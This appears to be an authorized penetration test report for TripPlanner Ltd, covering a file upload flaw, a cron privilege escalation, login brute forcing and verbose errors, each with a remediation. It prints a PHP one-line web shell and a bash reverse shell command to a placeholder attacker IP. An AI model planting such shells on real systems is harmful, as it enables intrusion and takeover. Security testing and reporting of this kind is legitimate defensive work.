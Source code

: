 # TripPlanner Ltd - Raw Findings Report

**Client:** TripPlanner Ltd
**Test Type:** Grey Box Penetration Test
**Test Date:** 24–28 July 2025
**Team Lead:** WISBEAU
**Report Version:** v1.0

---

## 🔍 Vulnerability 1: Unauthenticated File Upload (CMS)

* **Risk Level:** Critical
* **Location:** `https://admin.tripplanner.io/uploads.php`
* **Description:**
  The internal CMS allowed unauthenticated users to upload `.php` files disguised as images. No MIME type or extension validation.
* **Reproduction Steps:**

  1. Intercept request with Burp Suite.
  2. Replace image with `webshell.php.jpg`.
  3. Upload successful – accessible via direct URL.
  4. Shell access confirmed.
* **Evidence:**
  `/uploads/webshell.php.jpg` executed payload: `<?php system($_GET['cmd']); ?>`
* **Remediation:**

  * Enforce strict file validation
  * Block `.php`, `.asp`, `.jsp` extensions
  * Set proper upload folder permissions

---

## 🐚 Vulnerability 2: Misconfigured Cron Job (Privilege Escalation)

* **Risk Level:** High
* **Location:** `/etc/cron.d/backup-db`
* **Description:**
  Cron job runs every 5 minutes as root and reads from user-writable directory.
* **Exploitation:**

  * Drop reverse shell script in cron-read folder
  * Get root shell on trigger
* **Command Used:**

  ```bash
  echo "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1" > /cron-read/evil.sh
  ```
* **Remediation:**

  * Remove write permissions from cron job source folder
  * Use non-root users for automation

---

## 🕵️‍♂️ Vulnerability 3: Login Brute Force (Customer Portal)

* **Risk Level:** Medium
* **Location:** `https://tripplanner.io/login`
* **Description:**
  No rate limiting or CAPTCHA. Account lockout absent.
* **Tools Used:** Hydra
* **Result:** 8 valid user credentials recovered within 12 minutes.
* **Remediation:**

  * Implement CAPTCHA after 3 failed attempts
  * Lock account for 15 minutes after 5 failed tries
  * Enable 2FA

---

## 📄 Vulnerability 4: Verbose Error Messaging (API Gateway)

* **Risk Level:** Low
* **Location:** `https://api.tripplanner.io/v2/search`
* **Description:**
  Error messages reveal internal table structure:
  `"SQL syntax error near 'FROM bookings WHERE date=' at line 1"`
* **Remediation:**

  * Return generic messages to client (e.g. "Request failed")
  * Log detailed errors only server-side

---

## ✅ Tested Hosts

* `tripplanner.io`
* `admin.tripplanner.io`
* `api.tripplanner.io`
* Internal IPs: `10.1.10.10`, `10.1.10.25`

---

## 🧰 Tools Used

* Burp Suite Pro
* Nmap
* Metasploit
* Hydra
* CherryTree (note taking)
* LinPEAS (post-exploitation enumeration)

---

## 📌 Notes

* All tests were performed with TripPlanner’s written authorization
* No data was exfiltrated
* Backdoors and shells were cleaned post-test
* Logs submitted to IT security team

---

*Prepared by: WIS-BEAU — 1 Aug 2025*

